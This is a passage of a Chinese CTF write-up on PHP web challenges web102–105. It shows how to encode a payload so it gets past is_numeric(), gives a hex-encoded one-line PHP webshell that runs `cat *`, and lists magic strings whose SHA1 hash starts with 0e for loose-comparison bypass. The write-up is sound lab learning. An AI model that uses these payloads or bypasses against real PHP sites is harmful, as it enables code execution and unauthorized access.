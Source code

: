 那么我们需要找到一个合适的 payload , 使它经过 base64 + hex 之后的字符串仅包含 `[0-9]` 和 `e`, 才能够绕过 `is_numeric()` 的检测

```php
<?php
echo bin2hex(str_replace('=', '', base64_encode($_GET[1])));
?>
```

测试出来这个

```
5044383959474e6864434171594473 // <?=`cat *`;
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101634569.png)

hex 码前面记得补两个0 (substr)

然后访问 a.php 得到 flag

## web103

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101639404.png)

加了句这个, payload 同上

## web104

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101642334.png)

sha1 0e 漏洞, 而且是 `==`

以下值在 sha1 加密后以 0e 开头

```
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
0e1290633704
10932435112
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101646079.png)

或者用数组绕过

然后回过头看发现好像不太对???

直接传 `v1=1` `v2=1` 也能得到 flag

## web105

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101648022.png)
